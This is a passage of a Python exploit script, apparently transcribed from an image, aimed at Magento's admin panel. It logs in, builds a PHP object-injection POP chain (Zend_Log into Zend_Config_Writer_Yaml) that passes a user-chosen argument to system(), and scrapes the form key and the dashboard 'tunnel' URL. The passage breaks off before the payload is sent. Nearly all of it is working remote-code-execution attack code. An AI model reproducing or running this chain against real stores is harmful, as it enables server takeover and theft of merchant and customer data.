       
      if len(sys.argv) != 3:
          usage()
      
      # Command-line args
      target = sys.argv[1]
      arg = sys.argv[2]
      
      # Config.
      username = ''
      password = ''
      php_function = 'system'  # Note: we can only pass 1 argument to the function
      install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'  # This needs to be the exact date from /app/etc/local.xml
      
      # POP chain to pivot into call_user_exec
      payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
                '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
                'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
                'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
                '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
                ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                           len(arg), arg)
      # Setup the mechanize browser and options
      br = mechanize.Browser()
      #br.set_proxies({"http": "localhost:8080"})
      br.set_handle_robots(False)
      
      request = br.open(target)
      
      br.select_form(nr=0)
      br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
      br.form.fixup()
      br['login[username]'] = username
      br['login[password]'] = password
      
      br.method = "POST"
      request = br.submit()
      content = request.read()
      
      url = re.search("ajaxBlockUrl = \'(.*)\'", content)
      url = url.group(1)
      key = re.search("var FORM_KEY = '(.*)'", content)
      key = key.group(1)
      
      request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
      tunnel = re.search("src=\"(.*)\?ga=", request.read())
      tunnel = tunnel.group(1)
      